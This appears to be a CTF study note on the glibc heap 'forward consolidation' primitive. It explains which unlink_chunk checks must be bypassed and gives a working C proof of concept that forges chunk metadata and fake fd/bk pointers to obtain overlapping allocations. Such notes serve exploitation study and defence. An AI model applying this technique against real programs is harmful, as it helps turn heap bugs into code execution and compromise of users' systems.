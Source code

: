 ## forward consolidation

**Purpose:** We can have two separate chunks allocated to the same space
**Require:** Have an ability to change the metadata of the allocated chunks
**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass
- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *victim, *consolidated_chunk, *chunk2;

    victim = malloc(0x410);
    consolidated_chunk = malloc(0x80);
    chunk2 = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup consolidated_chunk->next prev_size & size fields */
    chunk2[-2] = 0x90;
    chunk2[-1] = 0x20;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim);
    // After this, our victim chunk would be freed, and due to fwd consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *new_chunk = malloc(0x410);
    long *overlaping_chunk = malloc(0x80);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

## Reference

- https://github.com/lieuhoaisa/CTFnotes/blob/main/heap/primitives/malloc/foward_consolidation/readme.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md
